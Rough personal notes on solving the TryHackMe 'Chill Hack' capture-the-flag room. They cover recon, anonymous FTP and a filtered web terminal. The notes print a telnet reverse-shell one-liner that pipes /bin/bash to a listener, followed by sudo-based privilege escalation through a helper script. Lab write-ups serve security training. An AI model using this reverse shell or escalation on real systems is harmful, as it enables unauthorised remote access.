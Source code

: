 Rough Notes - Chill Hack - TryHackMe CTF

nmap

ssh

ftp

gobuster

/images

/secret/

ftp -> anonymous

note.txt:

Anurodh told me that there is some filtering on strings being put in the command -- Apaar

/secret/ --> web terminal

revshells.com --> telnet

```

TF=$(mktemp -u);mkfifo $TF && telnet 10.10.53.99 4443 0&lt;$TF | /bin/bash 1&gt;$TF

```

sudo -l 

/home/apaar/.helpline.sh --> sudo priv for apaar

sudo -u apaar ./helpline.sh --> /bin/bash --> id = apaarcd /home/